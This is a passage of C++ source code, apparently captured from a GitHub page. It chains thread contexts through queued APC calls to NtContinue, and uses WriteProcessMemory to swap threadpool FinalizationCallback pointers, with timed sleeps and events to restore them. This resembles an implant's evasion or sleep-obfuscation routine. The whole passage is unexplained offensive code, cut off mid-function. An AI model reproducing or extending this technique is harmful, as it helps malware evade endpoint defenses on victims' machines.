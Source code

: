 ```cpp
    Ctx[3].Rip = (DWORD64)WriteProcessMemory;
    Ctx[3].Rcx = (DWORD64)(HANDLE)-1;
    Ctx[3].Rdx = (DWORD64) & (callbackinfo[2]->FinalizationCallback);
    Ctx[3].R8 = (DWORD64)SafeCallback;
    Ctx[3].R9 = (DWORD64)sizeof(PVOID);

    *(ULONG_PTR*)((Ctx[4]).Rsp) = (DWORD64)NtTestAlertAddress;
    Ctx[4].Rip = (DWORD64)WriteProcessMemory;
    Ctx[4].Rcx = (DWORD64)(HANDLE)-1;
    Ctx[4].Rdx = (DWORD64) & (callbackinfo[3]->FinalizationCallback);
    Ctx[4].R8 = (DWORD64)SafeCallback;
    Ctx[4].R9 = (DWORD64)sizeof(PVOID);

    *(ULONG_PTR*)((Ctx[5]).Rsp) = (DWORD64)NtTestAlertAddress;
    Ctx[5].Rip = (DWORD64)WriteProcessMemory;
    Ctx[5].Rcx = (DWORD64)(HANDLE)-1;
    Ctx[5].Rdx = (DWORD64) & (callbackinfo[4]->FinalizationCallback);
    Ctx[5].R8 = (DWORD64)SafeCallback;
    Ctx[5].R9 = (DWORD64)sizeof(PVOID);

    //setting the event to trigger ThreadFix
    *(ULONG_PTR*)((Ctx[6]).Rsp) = (DWORD64)NtTestAlertAddress;
    Ctx[6].Rip = (DWORD64)(SetEvent);
    Ctx[6].Rcx = (DWORD64)(*EvntFix);

    Ctx[7].Rip = (DWORD64)(ExitThread);
    Ctx[7].Rcx = (DWORD64)0x00;

    /* queue up apc calls */
    //always the same thread is queued but with a different context
    for (int i = 0; i < 8; i++) {
        if (!NT_SUCCESS(Status = NtQueueApcThread(Thread, (PPS_APC_ROUTINE)NtContinueAddress, &Ctx[i], FALSE, NULL))) {
            return -1;
        }
    }

    if (!NT_SUCCESS(Status = NtAlertResumeThread(Thread, NULL))) {
        return -1;
    }

    /*---------------------------------*/

    /*-----------FIXING THREADS-------------*/

    //first thread just waiting for the event to be set
    *(ULONG_PTR*)((CtxFix[0]).Rsp) = (DWORD64)NtTestAlertAddress;
    /* wait til EvntSync gets triggered */
    CtxFix[0].Rip = (DWORD64)NtWaitForSingleObjectAddress;
    CtxFix[0].Rcx = (DWORD64)(*EvntFix);
    CtxFix[0].Rdx = FALSE;
    CtxFix[0].R8 = NULL;
    
    //sleep for sleep timer
    *(ULONG_PTR*)((CtxFix[1]).Rsp) = (DWORD64)NtTestAlertAddress;
    CtxFix[1].Rip = (DWORD64)(Sleep);
    CtxFix[1].Rcx = (DWORD64)17000;

    *(ULONG_PTR*)((CtxFix[2]).Rsp) = (DWORD64)NtTestAlertAddress;
    CtxFix[2].Rip = (DWORD64)WriteProcessMemory;
    CtxFix[2].Rcx = (DWORD64)(HANDLE)-1;
    CtxFix[2].Rdx = (DWORD64) & (callbackinfo[0]->FinalizationCallback);
    CtxFix[2].R8 = (DWORD64)ResumeThreadValue;
```